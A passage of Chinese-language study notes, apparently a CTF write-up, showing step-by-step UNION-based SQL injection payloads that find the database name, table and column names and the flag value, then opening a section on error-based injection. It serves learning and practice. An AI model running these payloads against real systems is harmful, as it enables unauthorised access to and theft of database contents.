 发现报错减少一列，发现有回显

![image-20240119223220339](E:\学习资料\网安\笔记\笔记截图\image-20240119223220339.png)

判断注入点

```
-1' union select  1,2#
```

![image-20240119223851650](E:\学习资料\网安\笔记\笔记截图\image-20240119223851650.png)

暴库

```
-1' union select 1,database()#
```

![image-20240119224228076](E:\学习资料\网安\笔记\笔记截图\image-20240119224228076.png)

爆表

```
-1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()#
```

![image-20240119224334284](E:\学习资料\网安\笔记\笔记截图\image-20240119224334284.png)

爆字段名

```
-1' union select 1,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='flag'#
```

![image-20240119224436862](E:\学习资料\网安\笔记\笔记截图\image-20240119224436862.png)

爆字段内容

```
-1' union select 1,(select flag from flag)#
```

![image-20240119224717612](E:\学习资料\网安\笔记\笔记截图\image-20240119224717612.png)

拿到flag

**报错注入**

输入1'发现会报错，接着输入1'#发现还是会报错

![image-20240120153830119](E:\学习资料\网安\笔记\笔记截图\image-20240120153830119.png)

![image-20240120153938644](E:\学习资料\网安\笔记\笔记截图\image-20240120153938644.png)

判断注入

当场景中仅仅将SQL语句带入查询返回页面正确，没有返回点的时候，需要报错注入，用报错的回显。
